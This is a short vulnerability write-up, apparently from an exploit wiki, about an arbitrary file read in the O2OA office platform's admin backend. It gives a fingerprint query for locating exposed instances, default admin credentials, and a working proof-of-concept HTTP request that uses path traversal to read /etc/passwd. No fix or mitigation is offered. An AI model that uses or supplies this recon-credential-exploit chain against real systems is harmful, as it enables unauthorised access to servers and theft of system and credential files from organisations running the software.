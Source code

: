 # O2OA open A random file reading vulnerability in the background

## Vulnerability Description

O2OA is an open source and free enterprise and team office platform, providing four major platforms: portal management, process management, information management, and data management. It integrates work reporting, project collaboration, mobile OA, document sharing, process approval, data collaboration and other functions to meet various management and collaboration needs of enterprises. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">O2OA</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title=="O2OA"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661649878832-df6a8d1f-e402-4db0-b567-7d0803a43c0a-8539272.png)

Default password login to the background xadmin/o2 (o2oa@2022), verify POC

```php
POST /x_program_center/jaxrs/config/open?v=6.3
Authorization: PfyuxmzgIzq74NYhOcQ5NGbegmqb8H4y50QnO7mEHhA

{"fileName":"../../../etc/passwd"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661746022863-2eb3f02d-8437-4fa6-bb7f-dc401c699a63.png)